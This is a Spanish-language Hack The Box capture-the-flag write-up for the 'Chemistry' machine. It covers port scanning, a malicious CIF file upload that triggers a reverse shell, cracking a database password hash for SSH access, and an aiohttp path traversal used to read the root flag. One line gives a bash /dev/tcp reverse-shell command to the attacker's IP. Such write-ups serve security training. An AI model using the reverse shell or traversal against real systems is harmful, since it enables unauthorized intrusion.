

|  MAQUINA  |  OS   | DIFICULTAD |  PLATAFORMA  |      IP       |
| :-------: | :---: | :--------: | :----------: | :-----------: |
| CHEMISTRY | LINUX |   FACIL    | HACK THE BOX | CHEMISTRY.HTB |
## *Reconocimiento*

Con la IP de la maquina encontrada hacemos un escaneo de puertos de nmap y ver que información puedo encontrar. Encuentro un puerto SSH y un HTTP en un puerto diferente al habitual.



Como ya conozco la dirección en donde se ubica la pagina web, busco investigar un poco más haciendo una enumeración de directorios.




Hay un directorio para registrarnos, ingreso mis credenciales y me envía hacia el panel de la cuenta



En el panel hay una opción para subir archivos de extensión CIF. Este trae un ejemplo de un archivo con la extensión requerida.



## *Análisis de vulnerabilidades*

No conocía sobre este tipo de archivo así que comencé a buscar información y sus posibles vulnerabilidades y pude encontrar un payload que podía añadir al archivo de ejemplo que tuve recientemente.




Añado el payload para que al tratar de ver el archivo por medio del panel este cree una reverse shell, mientras eso ocurre yo estaré en escucha.



```bash
/bin/bash -c 'sh -i >& /dev/tcp/10.10.14.148/4444 0>&1'
```



## *Explotación*

Ya con el inicio de sesión por medio de app puedo revisar las carpetas que acompañan al usuario y encuentro una base de datos en la carpeta instance, levanto un servidor con python y obtengo la base de datos para obtener los datos e investigar.





Indagando encontramos un perfil de nombre rosa, tendré en cuenta este nombre para posibles ataques.



Dentro de la base de datos encontrada se ven muchos usuarios y contraseñas hasheadas, entre ellas veo el nombre de usuario rosa



Al desencriptar el hash tenemos la contraseña de rosa y con ella entramos por el puerto ssh y obtenemos acceso.



## *Post-Explotación*

Con Netstat veo que había una pagina corriendo así que quise saber con que tecnologías había sido montada, el servidor aiohttp/3.9.1 tiene una vulnerabilidad de path traversal y comienzo a probar rutas para saber si en verdad la vulnerabilidad sigue existiendo.




Cambio la ruta hacia la carpeta root y su posible archivo root.txt


